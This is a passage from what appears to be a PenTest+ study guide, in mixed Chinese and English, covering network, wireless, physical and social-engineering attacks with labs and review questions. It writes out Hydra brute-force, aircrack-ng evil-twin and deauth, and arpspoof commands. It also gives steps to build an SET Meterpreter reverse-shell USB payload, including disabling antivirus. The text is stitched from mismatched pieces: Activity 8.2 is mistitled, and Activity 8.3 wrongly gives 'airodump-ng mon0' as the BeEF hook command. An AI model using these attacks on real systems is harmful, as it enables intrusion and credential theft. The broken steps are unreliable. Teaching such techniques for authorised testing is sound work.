虽然许多渗透测试不允许拒绝服务攻击作为其参与规则和范围的一部分，但有些可能允许甚至要求它们。当渗透测试人员准备进行网络利用时，了解可以针对应用程序或其使用的协议的工具，或者可以通过发送大量流量来淹没服务或网络的工具非常重要。

## 考试要点

### 了解并能够解释常见的基于网络的攻击方法
解释什么是窃听和中间人攻击，它们如何实施，以及渗透测试人员想要捕获流量时面临哪些挑战。描述中继攻击和欺骗，它们之间的关系以及它们的区别。了解数据修改和数据损坏攻击。实施握手和哈希捕获攻击。解释为什么渗透测试人员可能会使用干扰来完成其他攻击。

### 描述网络攻击
你应该能够解释多种 NAC 绕过场景，包括 MAC 欺骗、基于 DHCP 服务器的 NAC 控制，以及 SNMP 和 ARP 检测如何受到攻击。描述和解释 VLAN 跳跃、中继以及相关技术，以查看不属于你 VLAN 的流量或将流量发送到其他 VLAN。解释 Kerberoasting、DNS 缓存中毒、LLMNR 和 NBT-NS 中毒，以及 NTLM 中继攻击。了解如何作为渗透测试人员努力的一部分实施基本的基于负载的压力测试。

### 使用无线和基于 RF 的利用和攻击
无线攻击需要一些超出有线网络所需技术的技巧。了解如何使用 `Aircrack-ng` 设置邪恶双胞胎接入点，并熟悉使目标系统取消身份验证所需的步骤。解释 captive portal 和 WIPS PIN 攻击以及它们如何使用。能够描述如何以及何时可以通过无线网络进行凭据收集。此外，你应该对非 Wi-Fi 无线利用有基本了解，包括蓝牙攻击、RFID 克隆，以及干扰和重放流量如何对渗透测试人员有用。

## 实验练习

### 活动 7.1：捕获哈希

在此活动中，你将捕获两个 Windows 系统之间使用的 NTLM 哈希。Microsoft 在 [`developer.microsoft.com/en-us/microsoft-edge/tools/vms`](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms) 提供免费的 Windows 虚拟机。你可以下载任何你希望的 Microsoft 虚拟机，用于你可能有权访问的任何虚拟化工具。由于我们在整本书中都使用了 VirtualBox，此示例将假设 Windows 10 和 VirtualBox 是首选组合。

1. 将 VM 导入 VirtualBox 并确保它可以启动并且你可以登录。将其设置为与你的 Kali Linux 系统处于相同的内部 NAT 网络。进入 Windows 的系统设置并将其名称更改为 `Server`。

2. 关闭 VM。从 VirtualBox 主窗口中，右键单击 VM 并选择克隆。按照对话框操作。克隆完成后，启动系统并将其重命名为 `Target`。

3. 启动 Server 系统。使用管理控件，创建一个新用户和密码。这是我们在捕获 NTLM 哈希时将要针对的账户。

4. 在服务器上创建一个目录并将文件放入该目录。然后在文件管理器中右键单击该目录并共享它。确保设置权限，允许你创建的新用户访问共享！

5. 记录两个系统的 IP 地址。

6. 现在运行 `Responder` 并捕获当 `Target` 尝试向 `Server` 系统进行身份验证时发送的 NTLM 哈希。请注意，我们没有提供完整的操作说明——随着你技能的提高，你将需要学习如何在没有指导的情况下弄清楚工具。如果你需要提示，我们建议：

   [`www.notsosecure.com/pwning-with-responder-a-pentesters-guide`](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide)

   作为一个良好的起点。

### 活动 7.2：服务暴力破解

在此练习中，你将使用 `Hydra` 对 Metasploitable 系统上的账户进行暴力破解。

1. 启动你的 Linux Metasploitable 2 或 3 系统。登录，并使用 `adduser` 创建一个弱密码用户。你可以在 Kali Linux 系统的 `/usr/share/wordlists/rockyou.txt.gz` 中找到我们将用于暴力破解的密码列表。如果你想解压缩 rockyou 列表以便阅读，只需将其复制到另一个位置并使用 `gzip -d rockyou.txt.gz` 命令。请注意，你将需要使用 `su` 命令以 root 账户在 Metasploitable 中添加用户——如果你还不知道如何操作，请务必学习。

2. 使用你的 Kali Linux 系统上的 `Hydra` 对你刚刚创建的账户进行暴力破解：

   ```
   hydra -l [userid] -P [password list location] -t 6 ssh://[metasploitable IP address]
   ```

3. 攻击花了多长时间？你可以更改什么设置来使其更快或更慢？如果你知道目标的常见密码，你如何将它们添加到单词列表中？

### 活动 7.3：无线测试

此练习需要一张无线网卡。如果你使用的台式机没有无线网卡，你可能需要跳过此练习。为此练习的目的，我们将假设你有一个可供 Kali Linux VM 访问的功能正常的无线网卡（`wlan0`）。你还应该在进行此练习时使用你拥有的接入点和目标系统。


1. 设置无线网卡以捕获流量：

```
airmon-ng start wlan0
```

请注意，这会将无线网卡更改为 `mon0`。

捕获流量以确定范围内有哪些接入点及其重要设置：

```
airodump-ng mon0
```

使用另一台设备连接到您的 AP。您应该能在屏幕上看到连接出现。

克隆接入点。从新终端中，输入：

```
airbase-ng -a [BSSID] -essid "[SSID]" -c [channel] mon0
```

请注意，您需要提供 AP 的硬件地址（BSSID）、SSID 和信道，并且它们必须与您要克隆的目标完全匹配。

现在您可以将设备从实际接入点断开连接，并导致其重新连接到您的克隆点。为此，请使用以下命令：

```
aireplay-ng -deauth 0 -a [BSSID]
```

现在您可以按需进行中间人攻击。

## 复习问题

答案可在附录中找到。

1. Charles 想要部署一个无线入侵检测系统。以下哪种工具最适合此目的？

1. WiFite
2. Kismet
3. Aircrack‐ng
4. SnortiFi

2. 以下哪种 NAC 系统对 Chris 来说最容易绕过？

1. 基于软件客户端的系统
2. DHCP 代理
3. MAC 地址过滤
4. 以上都不是

3. 如果 Chris 想要设置一个虚假 AP，哪种工具最适合他的需求？

1. Aircrack‐ng
2. Kismet
3. Wireshark
4. WiFite2

4. 一旦 Chris 获得网络访问权限，他可以使用什么技术来收集更多凭据？

1. ARP 欺骗以允许中间人攻击
2. 使用 Wireshark 进行网络嗅探
3. SYN 洪水攻击
4. 以上全部

5. 什么攻击技术可以让渗透测试人员查看其原生 VLAN 之外的 VLAN 上的流量？

1. MAC 欺骗
2. Dot1q 欺骗
3. ARP 欺骗
4. 交换机欺骗

6. 什么类型的蓝牙攻击试图通过蓝牙设备发送未请求的消息？

1. Bluesnarfing
2. Bluesniping
3. Bluejacking
4. Bluesending

7. Cassandra 想要攻击一个启用 WPS 的系统。她可以使用什么攻击技术来攻击它？

1. WPSnatch
2. Pixie dust
3. WPSmash
4. e‐Lint gathering

8. Michelle 想要在渗透测试中捕获 NFC 通信。在她拦截通信的能力中，最关键的因素是什么？

1. 加密
2. 通信持续时间
3. 范围
4. 协议版本

9. 作为渗透测试的一部分，Mariana 使用一个工具，该工具从列表中使用相同的用户名和密码针对许多目标系统，然后使用列表中的下一个用户名和密码。以下哪个术语最能描述她正在使用的攻击？

1. 暴力破解
2. 字典攻击
3. 哈希破解
4. 密码喷洒

10. Steve 已将他的渗透测试工作站设置为在目标和 FTP 服务器之间进行中间人攻击。他获取 FTP 凭据的最佳方法是什么？

1. 使用 Wireshark 捕获流量。
2. 针对 FTP 服务器进行暴力破解攻击。
3. 针对 FTP 服务器使用漏洞利用。
4. 针对下一次登录使用降级攻击。

11. Ian 想要在已攻破的系统上放置一个工具，该工具将允许他设置反向 shell。他应该选择以下哪种工具？

1. Aircrack‐ng
2. Nmap
3. Netcat
4. Censys

12. 在渗透测试中，什么驱动了使用去认证攻击？

1. 捕获握手的愿望
2. Bluejacking 攻击
3. 网络压力或负载测试
4. RFID 克隆攻击

13. 以下哪种工具不会允许 Alice 在网络上捕获 NTLM v2 哈希以用于传递哈希攻击？

1. Responder
2. Mimikatz
3. Ettercap
4. Metasploit

14. 您会为哪种类型的活动使用 HULK、LOIC、HOIC 和 SlowLoris 等工具？

1. DDoS
2. SMB 哈希捕获
3. DoS
4. 暴力破解 SSH

15. 在渗透测试期间，Mike 使用双标记将流量发送到另一个系统。他正在尝试什么技术？

1. RFID 标记
2. 标签嵌套
3. 元标记
4. VLAN 跳跃

16. Elle 正在使用她的工作站作为中间人攻击的一部分，如下图所示。她需要在点 X 发送什么以确保降级攻击正常工作？


1. SYN, ACK
2. PSH, URG
3. FIN, ACK
4. SYN, FIN

17. Isaac 想要使用 `arpspoof` 在目标主机 10.0.1.5 和位于 10.0.1.25 的服务器之间执行中间人攻击，网络网关为 10.0.1.1。他需要运行以下哪些命令才能做到这一点？（选择两个。）

1. `arpspoof ‐i eth0 ‐t 10.0.1.5 ‐r 10.0.1.25`
2. `arpspoof ‐i eth0 ‐t 10.0.1.5 ‐r 10.0.1.1`
3. `arpspoof ‐i eth0 ‐t 255.255.255.255 ‐r 10.0.1.25`
4. `arpspoof ‐i eth0 ‐t 10.0.1.25 ‐r 10.0.1.5`

18. Jessica 想要列出 Windows 域的域密码策略，以便为针对域成员系统的密码攻击做准备。她可以使用什么 `net` 命令来做到这一点？

1. `net view /domainpolicy`
2. `net accounts /domain`
3. `net /viewpolicy`
4. `net domain /admin`

19. Cynthia 尝试了如图所示的 DNS 中毒攻击。在她的尝试之后，她没有看到来自目标系统的任何流量。最可能是什么原因导致攻击失败？


1. DNS 信息不正确。
2. 注入太慢。
3. DNS 缓存未刷新。
4. 客户端未收到可信响应。

20. Elle 想要克隆一个 RFID 门禁卡。使用廉价克隆设备，哪种卡最容易被克隆？

1. 低频 125 至 134.2 KHz 卡
2. 中频 400 至 451 KHz 卡
3. 高频 13.56 MHz 卡
4. 超高频 865 至 928 MHz 卡

WileyPRE

# 第 8 章

利用物理和社会漏洞

对设施进行物理渗透测试不如基于网络的渗透测试常见，并且它需要一套不同的技能和技术。

## 物理设施渗透测试

对系统、网络和设施的物理访问可以提供远程网络攻击无法提供的机会。在大多数情况下，直接物理访问是获得更高级别访问权限的最佳方式之一，使物理渗透测试成为渗透测试人员武器库中的强大工具。

物理渗透测试也是测试物理安全控制（如门禁系统、传感器和摄像头、安全程序以及保安，以及员工安全培训）有效性的有用方法。与基于网络的评估类似，物理渗透测试需要信息收集、分析、利用和报告。

在前面的章节中，您学习了如何进行开源情报和被动侦察。除了这些技术之外，物理渗透测试还需要一个现场观察阶段，您在其中记录设施、其环境和可见控制。在基于网络的渗透测试中，您可以向网络设备发送主动探测，但在进行主动侦察时，您必须实际访问设施以进行物理侦察。


最后一个区别是需要进行 `pretexting`，这是一种社会工程学形式，你通过编造虚构情境来获取访问权限或信息。在物理渗透测试的初始侦察阶段获得的信息，将为你在现场进行成功的 `pretexting` 提供所需细节，因为这会让你的故事更具可信度。穿着当地电力公司的制服出现，比穿错制服或在预定维护已经发生一天后出现，更有可能让你进入内部。

## 进入设施

一旦开始现场评估，进入设施是首要步骤之一。弄清楚如何进入公共区域通常相对容易，但安全区域通常需要更多工作。你可能需要撬锁或找到其他绕过方式，或者可能需要使用社会工程学技巧说服工作人员让你进入。PenTest+ 考试目标侧重于几种常见方法，这里将对其进行说明。

### 跟随进入和尾随进入

进入设施最简单的方法之一是与合法员工一起进入。如果你看起来像是属于该设施，且组织中并非所有员工都互相认识，那么尾随进入是一个不错的选择。尾随进入（有时称为跟随进入）攻击依赖于跟随员工通过安全门或其他入口。

高安全性组织可能会使用访问控制气闸室来防止跟随进入和 `tailgating`。一个正确实现的安全气闸室（有时称为人锁），如 `图 8.1` 所示，一次只允许一个人通过，并且该人需要解锁两扇门，且每次只能解锁和打开其中一扇门。


FIGURE 8.1 A typical security vestibule design

虽然尾随进入可能是一个有用的解决方案，但其他相关技术包括伪装成送货司机并带着箱子或其他送货物品进入，或寻找其他可能被员工允许进入的理由。即使他们出于安全顾虑不允许你跟随他们进入，几乎总有一个理由可以说服他们为你打开门。

### 绕过锁和入口控制系统

入口控制通常通过锁来管理，因此撬锁是渗透测试人员工具包中有用的一部分。许多渗透测试人员携带一套开锁工具，可以让他们绕过遇到的许多锁，包括门、办公桌、文件柜和其他类型安全存储上的锁。

有几种复制钥匙的方法，包括从钥匙照片复制、制作钥匙印模然后从印模复制，甚至使用同一组织的多把钥匙来反向工程主钥匙。你可以在这些网站上找到这些及其他技术的更多信息：

*   Deviant Ollam's site: [`https://deviating.net/lockpicking`](https://deviating.net/lockpicking)

*   The LockWiki: [`http://www.lockwiki.com/index.php/Locksport`](http://www.lockwiki.com/index.php/Locksport)

*   The Open Organisation Of Lockpickers (TOOOL) website: [`https://toool.us`](https://toool.us)

绕过不使用钥匙的锁也可能很有用——因此你也需要关注 RFID 和磁条访问卡系统及克隆工具，以及组织中使用的任何其他入口访问机制。推按式锁、电子键盘和其他机制可能被使用，而获得访问权限可能简单到只需观察合法用户当众输入他们的代码！

能够获取或访问徽章、RFID 令牌或磁条安全卡的渗透测试人员也可以尝试克隆它们。许多可以使用简单的克隆设备复制，该设备读取合法钥匙或卡片并将其复制到另一把钥匙上。如何获取钥匙本身或获得足够长的访问权限以克隆它，通常是社会工程学练习中的一个问题。由于 `badge cloning` 不会留下复制证据，因此在针对使用它们的组织进行渗透测试时，这是一个有吸引力的选择。

锁绕过技术还涉及“插入钥匙”等工具，这是一种薄金属垫片，可以钩在门闩和锁上，允许渗透测试人员解除锁定。专用垫片和其他工具——包括仅仅在出口门的门闩板上贴一段胶带以便稍后重新进入——都是在不撬锁的情况下绕过锁的方法。

出口或存在传感器也容易被利用。它们通常用于人流量大的区域，以自动解锁或打开门，以便员工轻松离开，但这意味着渗透测试人员可以将其作为访问方法。这一漏洞促使一些组织在数据中心等安全区域移除或禁用出口传感器系统，但它们仍然存在于许多地点。

### 绕过周边防御和屏障

围栏和其他屏障旨在作为物理屏障和防止未经授权访问的威慑。围栏有多种样式，从旨在限制交通或防止随意访问的低围栏，到顶部带有带刺铁丝或剃刀铁丝的高安全性围栏以阻止攀爬者。非常高安全性的地点甚至可能用飞机缆绳加固围栏，以防止车辆冲破，并可能将围栏延伸至地面以下以阻止挖掘。正如你所料，使用高安全性围栏设计的组织也可能设有警卫岗亭，包括门卫，甚至可能有安全巡逻。如果在范围内且目标位置存在，了解谁被允许通过大门、需要什么样的身份证明、是否有巡逻以及他们的时间表和习惯，应该是你的渗透测试文档的一部分。

作为渗透测试人员，你应该充分记录围栏、其布局和弱点，以及通过它们提供访问的地点和方式。在许多情况下，你的重点将放在如何使用现有的大门和入口，而不是突破围栏，但完整的渗透测试也应该记录现有的突破口和弱点。当然，如果你可以轻松翻越围栏，那么翻越围栏应该列入你的可能选项清单！

### 其他常见控制

尽管 PenTest+ 考试特别指出了几种物理渗透测试技术，但有许多它未提及的常见控制。以下是其中一些：

*   警报，可能需要绕过或禁用

*   照明，包括运动感应照明

*   可能触发警报系统的运动传感器

*   可能记录你活动的视频监控和摄像头系统

在规划在设施中的工作时，记录每个安全控制的位置及其工作原理或可能的工作原理应列在你的清单前列。

## 信息收集

在设施中收集信息可以为物理和基于网络的渗透测试提供有用信息。许多渗透测试人员会使用隐藏摄像机记录整个物理渗透测试尝试，并记录任何侦察活动。这样他们可以查看录像以发现安全摄像头、员工徽章号码以及许多其他可能仅凭记忆和笔记而错过的信息。


## 社交工程

社交工程针对的是人而非计算机，依赖于个人或群体违反安全程序、政策和规则。在 PenTest+ 考试的背景下，社交工程师会寻找并利用人类的弱点和行为，以完成渗透测试的目标。

社交工程可以通过当面、电话、短信或电子邮件，或任何其他社交工程师可以接触并针对目标组织中工作人员的媒介来实施。

### 当面社交工程

当面社交工程需要深入了解个人及其反应方式，并利用社交工程师的技能来引出期望的回应。有许多当面社交工程技术，包括社交工程框架中记录的技术：[`https://www.social-engineer.org/framework/general-discussion`](https://www.social-engineer.org/framework/general-discussion)。

#### 引出信息

收集信息是任何社交工程练习的核心要素，而引出信息（即在不直接询问的情况下获取信息）是一种非常重要的工具。直接向个人询问信息往往会让他们产生怀疑，但提出其他问题或谈论可能引导他们透露所需信息的不相关领域可能非常有效。常见的技术包括使用开放式或引导性问题，然后随着话题接近所需信息而逐渐缩小范围。

#### 审讯和访谈

审讯和访谈策略可作为社交工程过程的一部分。审讯技术侧重于社交工程师主导对话并提出大部分或全部问题。这种方式不够微妙，对目标来说也不够舒适，因此除非目标有理由允许被审讯，否则审讯使用频率较低。访谈策略类似，但能让受访者更加放松。在这两种情况下，肢体语言都是目标感受和反应的重要线索。

#### 冒充

许多社交工程技术涉及某种形式的冒充。冒充涉及伪装成另一个人以获取设施或资源的访问权限。这可能简单到声称自己是工作人员，也可能复杂到穿着制服并出示虚假或克隆的公司 ID。冒充技术支持人员、维护员工、送货员或行政助理也很常见。冒充经常涉及 `pretexting`，这是一种技术，社交工程师声称需要了解正在交谈的人的信息，从而收集关于该个人的信息，以便更好地冒充他们。

#### 以物换物

以物换物攻击依赖于社交工程师向目标提供有价值的东西，以便目标感到安全并对其心存感激。这会建立感知到的信任，诱导目标在回报人情时感到安全。

#### 偷窥

仅仅看着目标的肩膀就能提供密码或访问代码等有价值的信息。这被称为 `shoulder surfing`，高分辨率带变焦镜头的摄像头可以从远处实现这一点。

#### USB 投放攻击

当无法通过其他方式访问组织时，可以使用 USB 键或其他介质等物理蜜罐。要执行 `USB drop key` 攻击，渗透测试人员会将攻击工具预加载到拇指驱动器中，这些工具针对目标公司中常见的操作系统或软件。然后，他们将一个或多个此类驱动器投放在容易被发现的位置，有时会贴上标签，表明驱动器上有有趣或重要的数据。此类攻击的目标是让驱动器或介质被发现，然后在目标计算机上访问。如果攻击工具成功，它们会向渗透测试人员设置的系统“回传”，从而允许通过防火墙和其他安全屏障进行远程访问。

#### 贿赂

贿赂目标组织的员工以允许您访问系统或设施，在许多渗透测试中可能不在范围内，但渗透测试人员应意识到，在某些情况下，这可能是一种有效的技术。贿赂是一个敏感话题，应通过渗透测试的范围协议和交战规则谨慎处理。

### 钓鱼攻击

钓鱼攻击针对密码、用户名或信用卡信息等敏感信息。虽然大多数钓鱼是通过电子邮件进行的，但有许多相关攻击可以归类为钓鱼类型：

*   `Vishing`，即语音钓鱼，是通过电话系统进行的社交工程。它通常依赖于 `caller ID spoofing tools` 来使电话更可信。

*   `Short message service (SMS) phishing` 是通过短信进行的钓鱼。

*   `Whaling` 针对组织中高知名度或重要成员，如首席执行官或高级副总裁。

*   `Spear phishing` 针对特定个人，而不是更广泛的群体。

无论使用何种方法或技术，钓鱼尝试都旨在说服目标个人，他们收到的消息是真实可信的，并且应该做出回应。在许多情况下，钓鱼消息会发送给非常庞大的人群，因为一次错误就足以让攻击成功。

### 基于网站的攻击

虽然许多社交工程攻击是通过钓鱼或当面技术进行的，但基于网络的社交工程攻击也可以是一种有用的工具。最常用的两种基于网站的攻击是水坑攻击和使用克隆网站进行钓鱼。

#### 水坑攻击

一旦了解了目标组织员工的行为，您可能会识别出一个经常访问的网站。针对破坏此类网站并修改其代码以包含恶意软件的攻击被称为 `watering hole attack`。水坑攻击可能针对网站本身的代码，也可能针对网站默认包含的代码，例如广告代码或插件。这通常将社交工程与传统的应用程序、服务器或服务攻击相结合，以成功完成水坑攻击。

#### 克隆网站

许多钓鱼攻击依赖于克隆网站。此类网站看起来像真实网站，但实际捕获输入的数据。有些会将这些数据转发给真实网站，而其他网站在捕获数据后只是将您重定向到其他地方。克隆许多网站就像保存代码一样容易，社交工程工具包等工具提供了网站攻击向量工具，可以克隆网站用于钓鱼或恶意代码注入。

### 使用社交工程工具

社交工程技术很强大，但将其与允许使用预构建攻击向量和自动化的技术工具相结合，可以给渗透测试人员带来巨大优势。幸运的是，存在专门设计用于支持渗透测试的攻击工具。最常用的两种工具是社交工程工具包（即 `SET`）和浏览器利用框架（即 `BeEF`）。

#### 使用 SET


# 社会工程学工具包（SET）

`Social Engineering Toolkit`，或 `SET`，是一种菜单驱动的社会工程学攻击系统。Metasploit 用户已经对这种菜单驱动的攻击系统很熟悉。它提供鱼叉式网络钓鱼、网站、感染性介质和其他攻击向量，如 图 8.2 所示。


图 8.2 SET 菜单

`SET` 内置于 Kali Linux，允许渗透测试人员轻松将其集成到测试活动中。它与 Metasploit 集成，以使用本书前几章中介绍过的相同方法生成有效载荷。

图 8.3 显示 `SET` 将控制权移交给 Metasploit，以运行本地服务并接受来自攻击包的连接。一旦选择了攻击方法，模块可以通过电子邮件、USB 拇指驱动器或恶意网站交付给目标。一旦社会工程学努力成功，利用包将执行。如果成功，您将获得对受损系统的远程 shell 或其他访问权限！


图 8.3 SET 加载 Metasploit 反向 TCP 处理程序

## 使用 BeEF

`Browser Exploitation Framework` (`BeEF`) 是一种渗透测试工具，旨在允许利用 Web 浏览器。与 Metasploit 和 `SET` 一样，`BeEF` 内置于 Kali Linux。您可以使用之前练习中使用过的虚拟机来练习 `BeEF`。一旦说服用户访问启用 `BeEF` 的网站，该工具将接管，提供针对大量浏览器功能和能力的“钩子”。

`BeEF` 提供关于连接浏览器的详细信息，如 图 8.4 所示。请注意，您可以看到浏览器字符串、语言、平台、窗口大小，以及浏览器组件和功能列表，以及设备被挂钩的位置。


图 8.4 BeEF 挂钩浏览器详情

一旦浏览器被挂钩，`BeEF` 提供了一大套工具，您可以使用这些工具在浏览器内采取行动。这些包括用于设置和程序的检测功能，以及播放声音或请求远程页面允许打开摄像头或获取已访问站点和域列表等直接操作。如果浏览器允许，`BeEF` 还可以检测本地安装的插件和软件，针对浏览器使用特定利用，执行 DoS 攻击，甚至尝试安装持久性工具。图 8.5 显示了 `BeEF` 提供的一些命令。


图 8.5 在挂钩浏览器中可用的 BeEF 命令

与本书中探索的其他工具一样，`BeEF` 的深度远非本章所能涵盖。`BeEF` 项目网站提供视频、wiki 文档和其他信息，可帮助您开始使用该工具。您可以在 [`beefproject.com`](http://beefproject.com) 找到它。

## 来电显示伪造

渗透测试人员可能需要的最后一组工具是来电显示和 VoIP 通话伪造工具。Metasploit 的 SIP INVITE 伪造工具可以向目标发送假冒的 VoIP SIP 邀请，而 Viproy 等其他工具为渗透测试 VoIP 网络提供了广泛的功能。

PenTest+ 考试大纲包括使用这些呼叫伪造工具作为您应该了解的技术，特别是在网络钓鱼（vishing）等社会工程学攻击的背景下。

## 摘要

对渗透测试目标的物理访问提供了远程网络评估期间无法获得的各种选项。访问有线网络、工作站，甚至通过垃圾箱搜索（翻找垃圾桶）获取信息的能力，使现场渗透测试成为一种强大的工具。

获得对物理设施的访问权限需要一套独特的技能。物理访问技术包括撬锁和绕过锁具、克隆徽章、触发门传感器以允许访问，以及使用允许尾随进入安全入口的面对面社会工程学形式。面对面访问还允许通过肩窥（即看着某人输入身份验证信息）窃取密码和代码！

社会工程学是利用欺骗操纵个人执行所需动作或提供信息的过程。渗透测试人员经常在面对面以及通过电话、电子邮件、短信或其他通信方式使用社会工程学。

社会工程学依赖于许多常见的激励因素，包括建立感知信任；让目标感到有负债感，从而以同样的方式回报；说服目标您有权要求他们执行某项动作；或创造紧迫感、稀缺性或恐惧感，激励他们采取行动。相似感或相似性也常被利用，因为觉得与您有共同点的目标通常会同情并采取对您有利的行动。最后，渗透测试人员可能依赖社会认同的概念来说服目标。这意味着您展示其他人也表现得类似，使目标做您希望他们做的事情感觉更合理。

这些社会工程学技术中的每一种都可用于各种面对面或远程攻击。社会工程学工具包（`SET`）和浏览器利用框架（`BeEF`）等工具包已构建用于利用人类弱点，并将社会工程学技术与技术手段相匹配，以便您成功实施利用。

电子邮件、电话和 SMS 网络钓鱼依赖于社会工程学技术，通常用于获取用户名、密码和信息。许多网络钓鱼技术有特定名称，包括 vishing（一种通过电话进行的网络钓鱼）；smishing（通过 SMS 消息进行的网络钓鱼）；whaling（按角色针对组织中重要个人的做法）；以及 spear phishing（针对特定个人的网络钓鱼）。

## 考试要点

**解释网络钓鱼技术。** 列出并解释如何实施网络钓鱼技术，包括鱼叉式网络钓鱼、SMS 网络钓鱼、语音网络钓鱼和 whaling。了解常见的网络钓鱼做法，以及为什么个人或特定人群可能会被针对，而不是大群体或整个组织。

**理解社会工程学激励技术。** 了解何时以及如何应用常见的社会工程学激励技术。区分权威、稀缺性、社会认同、紧迫性、相似性和基于恐惧的方法，以及每种方法何时以及为何有用。解释结合激励技术为何有益，以及哪些技术配合使用效果良好。描述冒充攻击和技术，以及您可能在社会工程学工作中使用它们的时机。

**描述物理安全攻击方法。** 描述物理设施渗透测试技术，包括如何执行尾随攻击。解释垃圾箱搜索、肩窥和徽章克隆，并解释何时以及为何会使用每种方法。

**使用 SET 和 BeEF 等社会工程学工具。** 对社会工程学工具包（`SET`）及其如何实施常见攻击有基本了解。了解基本命令结构、工具中包含哪些功能，以及它如何与 Metasploit 集成以交付利用包。解释如何使用浏览器利用框架（`BeEF`）设置基于浏览器的攻击，包括它可以捕获哪些信息、它提供哪些类型的利用，以及在渗透测试中使用它可能存在哪些限制。


## Lab Exercises

### Activity 8.1: Designing a Physical Penetration Test

Physical penetration tests require careful planning to ensure that they are executed properly. The first step for most physical penetration tests is a site evaluation. For this exercise, you should select a site that you are familiar with and have access to. Since this activity can seem suspicious, you should get appropriate permission to review the facility if necessary.

Once you have received permission, you should first determine what a penetration test of the facility might require if you were conducting one for your client. Are they interested in knowing if an on‐site data center is vulnerable? Is there a higher security zone with access controls that may need to be reviewed? Once you have this documented, you can move on to the following steps.

1. Write down the scope and target of your penetration test. What location, facility, or specific goal will you target? Use the list found on the following page as a starting point: [`http://www.pentest-standard.org/index.php/Pre-engagement#Physical\_Penetration\_Test`](http://www.pentest-standard.org/index.php/Pre-engagement#Physical_Penetration_Test).

2. Conduct information‐gathering activities to document the facility's location and access controls and related information, such as the location and coverage of external cameras, where primary and secondary entrances and exits are, if there are guards and where they are stationed, and other externally visible details. In many cases, penetration testers use cameras to capture this detail, as well as a top‐down satellite view to create a map of the security controls.

3. Use your external information gathering to create a penetration testing plan to enter the facility. Since you should actually have legitimate access to the facility, you should follow this as though you were conducting a penetration test, but without having to social‐engineer or otherwise violate security controls. Record where you would have encountered challenges or controls that your planning did not include.

4. Document your findings on the way to your target. Are there sufficient controls? Are there controls that would have stopped an attacker? What changes would you recommend to the facility's owner or the security professionals who manage its access control systems?

### Activity 8.2: Brute‐Forcing Services

In this exercise you will use the Social Engineering Toolkit to build a malicious USB stick. You will need to have a Kali Linux virtual machine or SET built and configured on a system that you have set up, and you will need a Windows virtual machine that you can connect a physical USB device to.

1. Start SET from the Kali Linux Applications menu under Social Engineering tools.

2. Navigate in the SET menu to Social Engineering Attacks, and then select the Infectious Media Generator.

3. For this practice session, we will use the standard Metasploit executable, so select that.

4. Select the exploit package you want to use. The Windows Reverse\_TCP Meterpreter is a good choice for a Windows target.

5. Provide the IP address of your Kali system when prompted, as well as a port of your choice. Run the listener when prompted.

6. When the file is completed, copy it to a USB drive. Note that some antivirus software may detect this file, so you may have to temporarily disable your antivirus to copy the file.

7. Boot your Windows virtual machine and insert the thumb drive. Once it is live, run `payload.exe` from the thumb drive. You should now have a reverse shell with Meterpreter running! Of course, in the real world you would have had to do a bit of social engineering to ensure that your target ran the payload.

### Activity 8.3: Using BeEF

This exercise requires two virtual machines: a Kali Linux virtual machine and a machine with a potentially vulnerable web browser. The free browser testing virtual machines that Microsoft provides at [`https://developer.microsoft.com/en-us/microsoft-edge/tools/vms`](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms) offer an excellent set of systems to practice with, and they allow you to test with older, more vulnerable browsers like Internet Explorer 8 up to current browsers like Edge. You can also install additional browsers and security plug‐ins if you want to more directly copy a specific corporate environment.

1. Start BeEF from the Kali Linux Applications menu under Social Engineering Tools.

2. Read through the Getting Started page and determine what you need to do to hook a browser.

3. Start your target system and hook the browser, using this command: `airodump‐ng mon0`.

4. Verify that you can see the hooked browser in the Online Browsers menu to the left of the BeEF window.

5. Review the information you have gathered about the hooked browser. What version is it, and what does it not provide? You may want to repeat this with another browser like Firefox or Chrome. Which browser leaks the most information?

6. Review the BeEF Commands menu and test out commands on the remote browser. How would you use these to succeed in gaining greater control during a penetration test?

## Review Questions

You can find the answers in the Appendix.

1. Cynthia wants to use a phishing attack to acquire credentials belonging to the senior leadership of her target. What type of phishing attack should she use?

1. Smishing

2. VIPhishing

3. Whaling

4. Spear phishing

2. Mike wants to enter an organization's high‐security data center. Which of the following techniques is most likely to stop his tailgating attempt?

1. Security cameras

2. A security vestibule

3. An egress sensor

4. An RFID badge reader

3. Which of the following technologies is most resistant to badge cloning attacks if implemented properly?

1. Low‐frequency RFID

2. Magstripes

3. Medium‐frequency RFID

4. Smartcards

4. Jen wants to send a phishing message to employees at the company. She wants to learn the user IDs of various targets in the company and decides to call them using a spoofed VoIP phone number similar to those used inside the company. Once she reaches her targets, she pretends to be an administrative assistant working with one of Flamingo's senior executives and asks her targets for their email account information. What type of social engineering is this?

1. Impersonation

2. Interrogation

3. Shoulder surfing

4. Administrivia

5. Jen wants to deploy a malicious website as part of her penetration testing attempt so that she can exploit browsers belonging to employees. What framework is best suited to this?

1. Metasploit

2. BeEF

3. SET

4. OWASP

6. After attempting to lure employees at Flamingo, Inc., to fall for a phishing campaign, Jen finds that she hasn't acquired any useful credentials. She decides to try a USB key drop. Which of the following Social‐Engineer Toolkit modules should she select to help her succeed?

1. The website attack vectors module

2. The Infectious Media Generator

3. The Mass Mailer Module

4. The Teensy USB HID attack module

7. Chris sends a phishing email specifically to Susan, the CEO at his target company. What type of phishing attack is he conducting?

1. CEO baiting

2. Spear phishing

3. Phish hooking

4. Hook SETting

8. Frank receives a message to his cell phone from a phone number that appears to be from the IRS. When he answers, the caller tells him that he has past due taxes and is in legal trouble. What type of social engineering attack has Frank encountered?

1. A spear phishing attack

2. A whaling attack

3. A vishing attack

4. A SMS phishing attack


9. Emily 想要收集有关某个组织的信息，但不想进入大楼。她可以使用哪种物理数据收集技术来潜在地收集业务文件而无需进入大楼？

1. 跟尾
2. 文件冲浪
3. USB 投放
4. 垃圾箱搜索

10. Cameron 向公司所有行政助理发送钓鱼邮件。他正在进行哪种类型的钓鱼攻击？

1. 猎鲸
2. 语音钓鱼
3. 水坑攻击
4. 矛准钓鱼

11. 哪种社会工程学动机技术依赖于说服目标，即其他人也有类似行为，因此他们也可以这样做？

1. 相似性
2. 恐惧
3. 社会认同
4. 互惠

12. Megan 想要克隆她正在进行渗透测试的公司的身份徽章。以下哪种类型的徽章可以在不接触的情况下被克隆？

1. 磁条
2. 智能卡
3. RFID
4. CAC

